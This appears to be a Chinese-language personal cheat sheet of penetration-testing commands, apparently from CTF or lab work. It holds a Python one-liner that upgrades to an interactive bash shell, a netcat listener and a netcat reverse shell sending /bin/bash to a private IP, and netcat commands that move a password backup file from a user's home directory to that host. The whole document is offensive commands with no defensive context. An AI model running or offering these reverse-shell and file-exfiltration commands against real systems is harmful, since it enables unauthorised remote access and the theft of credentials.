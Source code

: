 ```yaml
---
# 这是页面的图标
icon: page
# 这是文章的标题
title: 会用到的一些命令收集
# 设置作者
author: lhz
# 设置写作时间
time: 2018-10-01
# 一个页面只能有一个分类
category: 安全工具
# 一个页面可以有多个标签
tag:
  - 小命令收集

comment: false
---
```




通过python获取交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

nc

```
监听
nc -lvp 4444
回弹
nc -nv 192.168.141.134 4444 -e /bin/bash

使用nc传文件
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

